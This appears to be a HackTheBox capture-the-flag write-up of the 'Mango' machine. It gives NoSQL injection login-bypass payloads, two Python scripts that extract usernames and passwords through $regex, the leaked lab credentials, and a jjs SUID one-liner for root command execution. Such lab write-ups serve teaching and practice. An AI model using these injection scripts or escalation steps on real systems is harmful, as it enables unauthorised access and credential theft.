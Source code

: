 ```yaml
---
layout: single
title:  "HTB Writeup - Mango"
excerpt: "Mango is rated as a medium difficulty linux machine. This machine is hosting a webserver vulnerable to NoSQL injection, allowing attackers to leak credentials that can be used to successfully login via SSH. For privilege escalation, a scripting tool with SUID enabled can be used by attackers to execute shell commands as root."
header:
  teaser: "/assets/images/htb/mango/logo.png"
date: "2020-04-19"
classes: wide
categories:
- hackthebox 
- machines
tags:
- nosql 
- injection
- jjs 
- gtfobins
---
```


![](/assets/images/htb/mango/logo.png)  

Mango is rated as a ```medium``` difficulty linux machine. This machine is hosting a webserver vulnerable to NoSQL injection, allowing attackers to leak credentials that can be used to successfully login via SSH. For privilege escalation, a scripting tool with SUID enabled can be used by attackers to execute shell commands as root.

## Recon

A quick masscan + nmap scan gives us the following info:  

![](/assets/images/htb/mango/scan.png)  

There are 3 open ports, ```22, 80 and 443```. Credentials are needed for SSH access so let's proceed checking up ```port 80``` and ```port 443```.

## Webserver

Hitting up port 80 gives us a ```403 Forbidden``` response.

![](/assets/images/htb/mango/port_80.png)  

Adding ```mango.htb``` to ```/etc/hosts``` gives us the same response.

![](/assets/images/htb/mango/port_80_etchosts.png)  

Enumerating ```port 80```'s directories also gave nothing.

Skipping to ```port 443```, accessing the port leads us to this webpage.  

![](/assets/images/htb/mango/port_443.png)  

Enumerating ```port 443```'s directories and pages only led to this page.

![](/assets/images/htb/mango/port_443_analytics.png)  

It seems that ```https://mango.htb``` or ```https://10.10.10.162``` leads to nothing.

Going back to our nmap scan gives us a subdomain worth investigating.

```
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

Adding ```staging-order.mango.htb``` to ```/etc/hosts``` gives us a new webpage.

![](/assets/images/htb/mango/port_443_staging.png)  

It leads us to ```Sweet & Juicy Mango``` login page.

## NoSQL injection

After manually testing a lot of SQLi payloads, it seems that the login page is not vulnerable to SQLi. After wasting a lot of time in the rabbit hole, I realized that there might be a reason why this machine is named ```Mango```.  

```Mango``` -> ```Mongo``` -> ```MongoDB``` -> ```NoSQL injection```  

After trying different NoSQL payloads from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection), I got an ```HTTP/1.1 302 Found``` response with this payload.

```
username[$ne]=admin&password[$ne]=admin&login=login
```

![](/assets/images/htb/mango/burp_injection.png)  

We can extract information using this payload template:  

```
username[$regex]=^(insert character guess here)&password[$ne]=test&login=login
```

The payload means that the server will return a ```302 response``` if the user value starts with the right character/s.

Automating this attack with a script makes it easier to leak the information we need.

```
import requests
import string

url = 'http://staging-order.mango.htb/'

user = ''

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|']:
      data = {'username[$regex]': '^{}'.format(user + c),
        'password[$ne]': 'abc',
        'login': 'login'
        }

      print('Trying: {}'.format(user + c))
      print('Current user: {}'.format(user))

      r = requests.post(url, data=data, allow_redirects=False)
      if r.status_code == 302:
          # additional check to break the script
          if c == '$':
              print('Leaked user: {}'.format(user))
              exit()
          user += c
          print(user)
```

Running this script gives us two users, ```admin``` and ```mango```.   

![](/assets/images/htb/mango/leak_admin.png)  

Note: **Edited the script to skip admin user**

![](/assets/images/htb/mango/leak_mango.png)  

After extracting the users, we need to edit the payload to extract passwords.

This will be the new payload template for password extraction.

```
username=admin&password[$regex]=^(insert password guess here)&login=login
```

This script can be used to extract the password for each user:

```
import requests
import string

url = 'http://staging-order.mango.htb/'

password = ''

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|']:
      data = {'username[$eq]': 'mango',
        'password[$regex]': '^{}'.format(password+c),
        'login': 'login'
        }

      print('Trying: {}'.format(password + c))
      print('Current pw: {}'.format(password))

      r = requests.post(url, data=data, allow_redirects=False)
      if r.status_code == 302:
          if c == '$':
              print('Leaked password: {}'.format(password))
              exit()
          password += c
          print(password)
```

User ```admin``` password leak:

![](/assets/images/htb/mango/admin_pw.png)  

User ```mango``` password leak:

![](/assets/images/htb/mango/mango_pw.png)  

Leaked credentials:  

```
admin : t9KcS3>!0B#2
mango : h3mXK8RhU~f{]f5H
```

The credentials for mango user worked on SSH login.

![](/assets/images/htb/mango/mango_user.png)  

After checking the files of ```mango```, the file ```user.txt``` does not exist in the home directory. It seems that we still need to check for another user.

## PrivEsc to Admin 

Upon checking the list of users on ```/etc/passwd```, we can see that there is another user named ```admin```.

![](/assets/images/htb/mango/users.png)  

We can try to use the leaked credentials (```admin : t9KcS3>!0B#2```) for this user.

![](/assets/images/htb/mango/su_admin.png)  

Successfully pivoted to ```admin``` user.

## PrivEsc to Root

Executing [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) shows us that there is an SUID binary that can be exploited.  

![](/assets/images/htb/mango/suid.png)  

A quick google search about exploiting ```jjs``` leads us to another [GTFObins](https://gtfobins.github.io/gtfobins/jjs/) page.

![](/assets/images/htb/mango/gtfo_suid.png)  

According to GTFObins, we can execute system commands inside ```jjs``` with a one-liner command:

```
Java.type('java.lang.Runtime').getRuntime().exec('<insert commands here>').waitFor()
```  

Since ```jjs``` is SUID enabled, we can execute commands as ```root```. We can try to write an ```SSH public key``` to ```/root/.ssh/authorized_keys``` and login via SSH using our private key.

Overwriting ```/root/.ssh/authorized_keys``` by downloading our public key using ```wget```.

![](/assets/images/htb/mango/rooted.png)  

Successfully logged in as ```root``` using our private key.

-- 

![ar33zy](https://www.hackthebox.eu/badge/image/26849)


